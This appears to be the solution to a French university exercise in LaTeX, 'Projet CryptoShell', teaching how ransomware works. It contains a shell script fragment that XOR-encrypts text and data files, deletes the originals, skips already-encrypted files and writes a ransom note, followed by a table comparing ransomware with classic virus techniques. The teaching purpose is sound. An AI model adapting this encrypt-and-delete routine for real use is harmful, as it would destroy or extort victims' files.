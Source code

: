 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet CryptoShell --- Ransomware éducatif]
\begin{correction}
\begin{lstlisting}[title=cryptoshell.sh (phase3\_ransom.sh)]
# Générer une clé aléatoire
KEY=$(generate_key 8)
echo "$KEY" > "$KEY_FILE"

# Fonction de création de note de rançon (3c)
create_ransom_note() {
    local dir="$1"
    cat > "${dir}/RANSOM_NOTE.txt" << EOF
============================================
    CRYPTOSHELL — VOS FICHIERS SONT CHIFFRÉS
============================================
Identifiant victime : ${VICTIM_ID}
Envoyez 0.5 BTC à [ADRESSE FICTIVE — TP ÉDUCATIF]
Contact : cryptoshell@fake-educational.example
[Ceci est un exercice éducatif]
============================================
EOF
}

echo "[CryptoShell] Chiffrement en cours..."
find "$TARGET_DIR" -type f \( -name "*.txt" -o -name "*.dat" \) | while read filepath; do
    # 3b) Anti-surinfection : ne pas re-chiffrer les .locked
    case "$filepath" in *.locked) continue ;; esac
    [ "$(basename "$filepath")" = "RANSOM_NOTE.txt" ] && continue
    xor_file "$filepath" "${filepath}.locked" "$KEY"
    rm -f "$filepath"
    echo "  [+] $(basename "$filepath") -> $(basename "$filepath").locked"
    DIR=$(dirname "$filepath")
    if [ ! -f "${DIR}/RANSOM_NOTE.txt" ]; then
        create_ransom_note "$DIR"
    fi
done
echo "[CryptoShell] Chiffrement terminé. ID: $VICTIM_ID"
\end{lstlisting}

\textbf{3d)} Comparaison ransomware vs techniques classiques :

\begin{center}
\begin{tabular}{lp{5.5cm}p{5.5cm}}
\toprule
\textbf{Technique} & \textbf{Action sur le fichier} & \textbf{Réversibilité} \\
\midrule
\textbf{Écrasement} & Remplace le contenu par le code viral & Irréversible (données détruites) \\
\textbf{Ajout} & Ajoute le code viral en fin & Réversible (retirer le code ajouté) \\
\textbf{Compagnon} & Ne modifie pas le fichier original & Réversible (supprimer le compagnon) \\
\textbf{Ransomware} & Remplace le contenu par la version chiffrée & Réversible \textbf{si} la clé est connue \\
\bottomrule
\end{tabular}
\end{center}

\textbf{Similitudes :} Le ransomware, comme le virus par écrasement, \textbf{remplace} le contenu du fichier. Comme le virus par ajout, il utilise un mécanisme d'\textbf{anti-surinfection} (vérification de l'extension \texttt{.locked}).


\end{correction}
\end{exercice}
\end{document}
